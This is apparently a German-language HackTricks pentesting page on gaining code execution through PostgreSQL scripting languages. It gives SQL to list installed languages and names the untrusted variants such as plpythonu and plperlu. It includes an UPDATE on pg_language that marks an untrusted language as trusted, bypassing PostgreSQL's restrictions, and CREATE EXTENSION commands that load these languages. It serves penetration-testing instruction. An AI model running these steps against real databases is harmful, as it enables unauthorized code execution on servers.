 # RCE mit PostgreSQL-Sprachen

{{#include ../../../banners/hacktricks-training.md}}

## PostgreSQL-Sprachen

Die PostgreSQL-Datenbank, auf die Sie Zugriff haben, könnte verschiedene **Skriptsprache installiert** haben, die Sie missbrauchen könnten, um **willkürlichen Code** auszuführen.

Sie können **sie zum Laufen bringen**:
```sql
\dL *

SELECT lanname,lanpltrusted,lanacl FROM pg_language;
```
Die meisten der Skriptsprachen, die Sie in PostgreSQL installieren können, haben **2 Varianten**: die **vertrauenswürdige** und die **nicht vertrauenswürdige**. Die **nicht vertrauenswürdige** hat einen Namen, der mit **"u" endet** und ist die Version, die es Ihnen ermöglicht, **Code auszuführen** und andere interessante Funktionen zu nutzen. Dies sind Sprachen, die, wenn sie installiert sind, interessant sind:

- **plpythonu**
- **plpython3u**
- **plperlu**
- **pljavaU**
- **plrubyu**
- ... (jede andere Programmiersprache, die eine unsichere Version verwendet)

> [!WARNING]
> Wenn Sie feststellen, dass eine interessante Sprache **installiert** ist, aber von PostgreSQL als **nicht vertrauenswürdig** eingestuft wird (**`lanpltrusted`** ist **`false`**), können Sie versuchen, sie mit der folgenden Zeile **vertrauenswürdig** zu machen, damit keine Einschränkungen von PostgreSQL angewendet werden:
>
> ```sql
> UPDATE pg_language SET lanpltrusted=true WHERE lanname='plpythonu';
> # Um Ihre Berechtigungen über die Tabelle pg_language zu überprüfen
> SELECT * FROM information_schema.table_privileges WHERE table_name = 'pg_language';
> ```

> [!CAUTION]
> Wenn Sie eine Sprache nicht sehen, können Sie versuchen, sie zu laden (**Sie müssen Superadmin sein**):
>
> ```
> CREATE EXTENSION plpythonu;
> CREATE EXTENSION plpython3u;
> CREATE EXTENSION plperlu;
> CREATE EXTENSION pljavaU;
> CREATE EXTENSION plrubyu;
> ```
